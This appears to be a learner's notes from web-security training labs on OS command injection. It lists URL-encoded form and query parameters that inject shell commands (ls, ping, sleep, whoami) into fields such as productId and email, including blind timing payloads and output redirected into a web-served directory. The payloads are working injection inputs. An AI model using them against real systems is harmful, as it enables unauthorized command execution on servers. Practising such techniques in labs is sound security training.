 1. Lab 1
- productId=1&storeId=1`|ls+-la`
- productId=1`+%26+ls+-la+%26+#`&storeId=1
- %26: &
- #: comment

2. Lab 2
- csrf=B4G7qXQpa91IgN4pRliywafxaqhCqo6C&name=a&email=a%40a`||ping+-c+10+8.8.8.8||`&subject=a&message=a
- csrf=NpzXZbQMaPD5aRoGBpdwH1W976s2LH0S&name=a&email=a%40a`||sleep+10||`&subject=a&message=a
- csrf=NpzXZbQMaPD5aRoGBpdwH1W976s2LH0S&name=a&email=a%40a`+%26+sleep+10+%23`&subject=a&message=a
- %26: &
- %23: #

3. Lab 3
- csrf=Zc4sDy8E3xY6OC2xEUAbBhBBLnKYQnQn&name=a&email=a%40a`%26whoami>/var/www/images/haha.txt%26%23`&subject=a&message=a
- %26: &
- %23: #
- csrf=Zc4sDy8E3xY6OC2xEUAbBhBBLnKYQnQn&name=a&email=a%40a`||ls+-la+/>/var/www/images/hihi.txt||`&subject=a&message=a